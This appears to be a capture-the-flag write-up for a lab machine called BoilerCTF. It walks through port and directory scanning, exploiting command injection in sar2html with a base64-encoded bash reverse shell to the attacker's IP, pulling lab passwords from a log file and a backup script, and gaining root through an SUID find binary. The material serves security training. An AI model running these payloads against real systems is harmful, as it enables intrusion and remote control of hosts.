






## TL;DR

In this challenge we find `joomla` endpoint, and there sar2html vulnerable service, which has OS Command Injection vulnerability.

Then, we find the password of `basterd` inside `log.txt`, and the password of `stoner` inside `backup.sh`. 

We move to root using SUID on `/usr/bin/find`, which gives us root shell.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `80` with apache http server, port `10000` with MiniServ and port `55007` with ssh.
```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                                                                                    
21/tcp    open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                                               
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                                            
| ftp-syst:                                                                                                                                                                                                       
|   STAT:                                                                                                                                                                                                         
| FTP server status:                                                                                                                                                                                              
|      Connected to ::ffff:192.168.164.248                                                                                                                                                                        
|      Logged in as ftp                                                                                                                                                                                           
|      TYPE: ASCII                                                                                                                                                                                                
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 1                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                   
|_End of status                                                                                                                                              
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))                                                                                        
| http-robots.txt: 1 disallowed entry                                                                                                                        
|_/                                                                                                                                                          
| http-methods:                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                 
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                          
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                 
10000/tcp open  http    syn-ack ttl 62 MiniServ 1.930 (Webmin httpd)                                                                                         
|_http-server-header: MiniServ/1.930                                                                                                                         
|_http-favicon: Unknown favicon MD5: B2D13147237DBB316BA647F11A092EBE                                                                                        
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).                                                                                                                     
| http-methods:                                                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                 
55007/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                          
| ssh-hostkey:                                                                                                                                                                               
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8bsvFyC4EXgZIlLR/7o9EHosUTTGJKIdjtMUyYrhUpJiEdUahT64rItJMCyO47iZTR5wkQx2H8HThHT6iQ5GlMzLGWFSTL1ttIulcg7uyXzWhJMiG/0W4HNIR44DlO8zBvysLRkBSCUEdD95kLABPKxIgCnYqfS3D73NJI6T2
qWrbCTaIG5QAS5yAyPERXXz3ofHRRiCr3fYHpVopUbMTWZZDjR3DKv7IDsOCbMKSwmmgdfxDhFIBRtCkdiUdGJwP/g0uEUtHbSYsNZbc1s1a5EpaxvlESKPBainlPlRkqXdIiYuLvzsf2J0ajniPUkvJ2JbC8qm7AaDItepXLoDt
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLIDkrDNUoTTfKoucY3J3eXFICcitdce9/EOdMn8/7ZrUkM23RMsmFncOVJTkLOxOB+LwOEavTWG/pqxKLpk7oc=                                                
|   256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPsAMyp7Cf1qf50P6K9P2n30r4MVz09NnjX7LvcKgG2p                                                                                                                                
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### Exploit OS Command Injection inside sar2html

I started with `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/BoilerCTF]
└─$ ffuf -u "http://boilerctf.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://boilerctf.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 165ms]
joomla                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 156ms]
manual                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 166ms]
robots.txt              [Status: 200, Size: 257, Words: 46, Lines: 16, Duration: 169ms]
:: Progress: [4750/4750] :: Job [1/1] :: 247 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```

we can see several files, i looked at `robots.txt` and realized this is rabbit hole.
```bash
┌──(agonen㉿kali)-[~/thm/BoilerCTF]
└─$ curl http://boilerctf.thm/robots.txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

So, I tried `joomla`:


this is `joomla` cms. I fuzzed to find hidden folders:
```bash
┌──(agonen㉿kali)-[~/thm/BoilerCTF]                                                                                                                                                  [22/318]
└─$ ffuf -u "http://boilerctf.thm/joomla/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -fc 403                                              
                                                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                      
                                                                                                                                                                                             
       v2.1.0-dev                                                                                                                                                                            
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
 :: Method           : GET                                                                                                                                                                   
 :: URL              : http://boilerctf.thm/joomla/FUZZ                                                                                                                                      
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                                                                           
 :: Follow redirects : false                                                                                                                                                                 
 :: Calibration      : false                                                                                                                                                                 
 :: Timeout          : 10                                                                                                                                                                    
 :: Threads          : 40                                                                                                                                                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                  
 :: Filter           : Response status: 403                                                                                                                                                  
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
templates               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 155ms]                                                                                                      
media                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 164ms]                                                                                                      
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 1303ms]                                                                                                     
modules                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 158ms]                                                                                                      
tests                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 152ms]                                                                                                      
bin                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 161ms]                                                                                                      
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 162ms]                                                                                                      
includes                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 163ms]                                                                                                      
language                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 158ms]                                                                                                      
components              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 153ms]                                                                                                      
cache                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 157ms]
libraries               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 152ms]
installation            [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 188ms]
build                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 151ms]
tmp                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 159ms]
layouts                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 161ms]
administrator           [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 162ms]
cli                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 165ms]
_files                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 155ms]
                        [Status: 200, Size: 12463, Words: 772, Lines: 259, Duration: 212ms]
```

we can see the folder `/_test`, i went there and, `http://boilerctf.thm/joomla/_test/`, and found sar2html.



I googled for exploit, and found this [https://www.exploit-db.com/exploits/47204](https://www.exploit-db.com/exploits/47204) `RCE`.

> In web application you will see index.php?plot url extension.

> http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.

Okay, let's try to exploit it:
```bash
http://boilerctf.thm/joomla/_test/index.php?plot=;printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

and we got the reverse shell:



### Find password for basterd and then for stoner inside log.txt and backup.sh

Inside the folder, I found the file `log.txt`:
```bash
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt 
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
www-data@Vulnerable:/var/www/html/joomla/_test$ su basterd
Password: 
basterd@Vulnerable:/var/www/html/joomla/_test$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
```

It has the password of `basterd`, so we got the credentials:
```bash
basterd:superduperp@$$
```


Inside the home folder, i found the file `backup.sh` which has the password of `stoner`:
```bash
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
basterd@Vulnerable:~$ su stoner
Password: 
stoner@Vulnerable:/home/basterd$
```



So, now we got these credentials:
```bash
stoner:superduperp@$$no1knows
```

we can grab the user flag:
```bash
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
```

### Privilege Escalation to Root using SUID on find

I checked for sudo permissions:
```bash
stoner@Vulnerable:/home/basterd$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:/home/basterd$ ls -la /NotThisTime/MessinWithYa
ls: cannot access '/NotThisTime/MessinWithYa': No such file or directory
stoner@Vulnerable:/home/basterd$ mkdir /NotThisTime
mkdir: cannot create directory ‘/NotThisTime’: Permission denied
stoner@Vulnerable:/home/basterd$ ls -la /NotThisTime
ls: cannot access '/NotThisTime': No such file or directory
```

We can see we have sudo on the file `/NotThisTime/MessinWithYa`. However, it isn't exist and we can't create it... rabbit hole.

using linpeas i've found we have SUID bit on `/usr/bin/find`:



we can privilege escalate to root, as shown here [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/).

So, this is the command:
```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```



and grab the root flag
```bash
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-4.3# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
bash-4.3# cat /root/root.txt 
It wasn't that hard, was it?
```